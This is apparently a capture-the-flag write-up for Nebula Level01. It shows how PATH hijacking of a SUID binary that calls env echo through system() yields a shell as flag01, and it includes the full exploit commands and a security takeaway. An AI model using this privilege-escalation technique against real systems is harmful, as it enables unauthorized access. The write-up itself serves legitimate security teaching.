 ## 🧪 Nebula - Level01

> **Category:** Privilege Escalation – `$PATH` Hijacking
> 
> **Goal:** Gain a shell as `flag01`
> 
> **System:** GNU/Linux – Nebula VM
> 
> **Required skills:** Environment variable manipulation, understanding of `system()` and `/usr/bin/env`

---

### 🔍 Description

This level presents a **SUID binary** owned by `flag01`, accessible by the current user `level01`. Static analysis of the binary reveals that it uses `system("/usr/bin/env echo and now what?")`, which is exploitable via `$PATH` manipulation.

---

### 📂 Finding the vulnerable binary

We navigate to the target user's home directory:

```bash
cd /home/flag01
ls -l
```

We find the vulnerable binary:

```
-rwsr-x--- 1 flag01 level01 7322 ... flag01
```

This binary runs with `flag01`'s privileges due to the **SUID bit**.

---

### 🔎 Binary analysis using `gdb`

Using `gdb`, we disassemble the main function:

```bash
gdb ./flag01
(gdb) disas main
```

Key instructions:

```asm
call   setresgid
call   setresuid
call   system
```

It calls:

```c
system("/usr/bin/env echo and now what?");
```

---

### 🚩 Vulnerability explained

The binary executes `env`, which **looks up `echo` in the current `$PATH`**.

If we create a **malicious fake `echo`** somewhere early in our `$PATH`, we can hijack the execution.

---

### 🚀 Exploitation steps

1. **Create a fake `echo`:**

```bash
echo "/bin/sh" > /tmp/echo
chmod +x /tmp/echo
```

2. **Inject our path into `$PATH`:**

```bash
export PATH=/tmp:$PATH
```

3. **Run the vulnerable binary:**

```bash
./flag01
```

Success: we get a shell as `flag01`.

4. **Retrieve the flag:**

```bash
getflag
```

---

### ✅ Full exploit summary

```bash
echo "/bin/sh" > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./flag01
getflag
```

---

### 🔐 Security takeaway

This level teaches us how dangerous it is to use `system()` in **SUID binaries**, especially with `env`, which relies on the environment for command resolution.

Even though the full path to `env` is specified, the argument (`echo`) is resolved via `$PATH`, and is therefore **user-controllable**.

> 🔥 Never trust `$PATH` in privileged programs. Always use absolute paths and drop privileges where possible.

---